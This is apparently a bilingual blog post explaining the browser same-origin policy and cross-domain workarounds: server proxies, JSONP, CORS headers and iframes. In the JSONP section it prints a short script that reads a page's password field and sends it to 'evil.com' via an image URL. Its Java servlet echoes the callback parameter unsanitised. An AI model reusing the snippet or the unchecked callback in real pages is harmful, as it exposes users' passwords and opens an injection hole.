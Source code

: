 ```yaml
---
title: AJAX Cross-Domain Same-Origin Policy limitation
date: 2017-02-11 18:32:31 Z
categories:
- iteye
layout: post
---
```


### AJAX Same-Origin Policy(SOP) limitation

摘自：

http://www.ibm.com/developerworks/library/wa-aj-jsonp1/   
http://www.ibm.com/developerworks/cn/lotus/mashup-openajax/index.html         


同源策略中“源”是一个包含主机名、协议和端口号的三元组。在同源策略的限制下，浏览器只允许网页中的脚本（如 JavaScript 或 VBScript）访问与之同源的 HTTP 请求和 cookie。注意即使域名和IP是对应的同一个地址，也是属于不同的源的。这里需要注意的是同源策略只对网页的 HTML 文档对象做了限制(`XmlHttpRequest`)，而对静态的资源文件，如 JavaScript 文件、CSS 文件、图片都可以被导入到 HTML 文档对象中（例如  `<script src="..." >`, `<img src=”…”>`）。因此，对于静态文件可以从任意其它域名下导入 HTML 文档。      

AJAX prevents cross-domail invokation, there are several ways to by pass this limitation. 

### write a proxy on the server side. 

The SOP limitation only exists only on the javascript side.  While on the side, we can still invoke the other domail url such as via HttpClient     

### JSONP(JSON with Padding) 

the same-origin policy doesn't prevent the insertion of dynamic script elements (动态引入图像也是可以的，这样静态资源也可以引起跨域的调用）into the document. That is, you could dynamically insert JavaScript from different domains, carrying JSON data in them.   

```
<mce:script type="text/javascript">
<!--
// This is our function to be called with JSON data
function showPrice(data) {
    alert("Symbol: " + data.symbol + ", Price: " + data.price);
}
var url = “ticker.js”; // URL of the external script
// this shows dynamic script insertion
var script = document.createElement('script');
script.setAttribute('src', url);

// load the script
document.getElementsByTagName('head')[0].appendChild(script); 

// -->
</mce:script>  
```
Note that, in order to do this, you must have a callback function already defined in the Web page at the time of insertion. Beginning with version 1.2, jQuery has had native support for JSONP calls. You can load JSON data located on another domain if you specify a JSONP callback, which can be done using the following syntax: `url?callback=?`. 

AJAX invoke:   

```
jQuery.getJSON("http://www.yourdomain.com/jsonp/ticker?symbol=IBM&callback=?", 
function(data) {
    alert("Symbol: " + data.symbol + ", Price: " + data.price);
});  
```
Another domain generates json data and returned to client side with callback function.     

```java
@Override
protected void doGet(HttpServletRequest req, HttpServletResponse resp) 
  throws ServletException, IOException {
	String jsonData = getDataAsJson(req.getParameter("symbol"));
	String output = req.getParameter("callback") + "(" + jsonData + ");";

	resp.setContentType("text/javascript");
          
	PrintWriter out = resp.getWriter();
	out.println(output);
	// prints: jsonp1232617941775({"symbol" : "IBM", "price" : "91.42"});
}     
```

基于图像的如下

```
(function(){ 
	function getPassword() { 
		var pw = document.getElementById("password").value; 
		var imgTag = document.createElement("IMG"); 
		imgTag.setAttribute("src", "http://evil.com?pw=" + pw); 
	} 
	document.getElementById("submit").addEventListener("click",getPassword); 
})() 
```

局限性：

* 需要服务端配合改造
* JSONP只支持GET请求


### CORS
Cross-origin resource sharing (CORS) is a mechanism that allows a web page to make XMLHttpRequests to another domain. Such "cross-domain" requests would otherwise be forbidden by web browsers, per the same origin security policy. CORS defines a way in which the browser and the server can interact to determine whether or not to allow the cross-origin request. It is more powerful than only allowing same-origin requests, but it is more secure than simply allowing all such cross-origin requests.

通过在HTTP Header中加入扩展字段，服务器在相应网页头部加入字段表示允许访问的domain和HTTP method，客户端检查自己的域是否在允许列表中，决定是否处理响应。

服务器端在HTTP的响应头中加入：

* Access-Control-Allow-Origin: example.com
* Access-Control-Request-Method: GET, POST
* Access-Control-Allow-Headers: Content-Type, Authorization, Accept, Range, Origin
* Access-Control-Expose-Headers: Content-Range
* Access-Control-Max-Age: 3600
   
多个域名之间用逗号分隔，表示对所示域名提供跨域访问权限。"*"表示允许所有域名的跨域访问。

客户端可以有两种行为：

1. 发送OPTIONS请求，请求Access-Control信息。如果自己的域名在允许的访问列表中，则发送真正的请求，否则放弃请求发送。
2. 直接发送请求，然后检查response的Access-Control信息，如果自己的域名在允许的访问列表中，则读取response body，否则放弃。
   本质上服务端的response内容已经到达本地，JavaScript决定是否要去读取。

     
### iframe     

通过iframe的src可以指向任意的server url 